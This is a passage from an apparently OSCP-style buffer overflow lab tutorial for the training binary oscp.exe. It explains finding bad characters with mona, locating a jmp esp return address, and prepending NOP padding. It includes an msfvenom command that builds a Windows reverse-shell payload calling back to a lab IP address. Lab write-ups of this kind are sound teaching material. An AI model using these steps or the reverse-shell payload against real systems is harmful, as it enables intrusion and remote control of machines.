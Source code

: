 > **!mona compare -f C:\mona\oscp\bytearray.bin -a ADDRESS**

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.




## Finding a Jump Point

Next we find the jump instruction. 

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the **-cpb** option with **all the badchars** you identified (including \x00):

> **!mona jmp -r esp -cpb "\x00 + XXXXXXXX"**

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the **"retn"** variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.



## Generating a Payload

Generate payload with any msfvenom payload. Following will do too. Ensure you specify all the bad chars. 

> **msfvenom -p windows/shell_reverse_tcp LHOST=10.11.12.172 LPORT=1234 EXITFUNC=THREAD -b "\x00 + rest" -f py**

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.



## Prepending NOPs

Since an encoder can interfere with the payload. You will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

